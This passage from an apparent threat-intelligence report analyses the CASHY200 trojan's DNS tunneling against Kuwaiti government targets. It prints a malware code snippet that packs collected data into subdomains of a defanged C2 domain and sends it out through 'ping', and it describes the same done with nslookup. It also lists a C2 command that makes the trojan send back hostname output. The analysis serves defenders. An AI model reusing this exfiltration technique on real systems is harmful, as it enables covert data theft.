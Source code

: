 

Table 1. Malicious Word documents installing CASHY200 payloads
Also of interest, on May 14, 2019, an individual posted on Microsoft’s TechNet forum requesting information on an activity they observed on two of their servers that involved the domain windows64x[.]com. The activity described by the individual is tunneling activity to the same C2 domain using the same DNS tunneling protocol that we blocked at the Kuwait government organization. While we cannot confirm the organization experiencing this activity, based on the details provided in the forum post, we believe that the individual also worked at another Kuwait government organization.
Another interesting detail provided in the post to TechNet was that the queries for the DNS tunnel were generated using the command ping -n 1 <domain>. We observed the same technique to issue queries for a DNS Tunnel in a CASHY200 sample configured with firewallsupports[.]com as the C2, as depicted in the code in Figure 2. If a user (or malicious script in this case) provides a domain to the ping command, the application will attempt to resolve the domain before sending the ICMP messages to ping the remote system. Using the ping application in this manner effectively sends the query for the DNS tunnel.





$domain = $rnd + $in + $id + $coun + $data + 
'.firewallsupports[.]com'
$get = cmd /c ping -n 1 $domain




123

$domain = $rnd + $in + $id + $coun + $data + '.firewallsupports[.]com'$get = cmd /c ping -n 1 $domain






Figure 2. Code in CASHY200 sample using ping -n 1 to issue DNS queries to firewallsupports[.]com
Similarly, we observed another CASHY200 sample that used the nslookup command in the same manner as the ping sample except to communicate using the domain windows64x[.]com. This sample used nslookup -type=a <domain> to issue the DNS queries and further strengthens the relationship between the two domains.
CASHY200 DNS Tunneling Protocol
We analyzed the file(SHA256: eccc65711cbd154f680e8c8ef343d53f29e4a6237510abd4ad1eab5742b035b3) in order to understand the capabilities of the payload and the DNS tunneling protocol that was blocked at the Kuwait organization. This sample communicates with the domain windows64x[.]com. The DNS tunneling protocol relies on DNS A queries to send data from the Trojan to the C2 server within the subdomain of the queried domain and receive data within the IPv4 answer from the C2 server. At a high level, the CASHY200 sample associated with this activity can issue two different commands, seen in Table 2 by answering the initial beacon query with an IPv4 answer that has either 48 or 92 as its first octet.



Command in IPv4
Description of Command


48.x.x.x
Run ‘hostname’ command and send the results to the C2 over DNS tunnel.
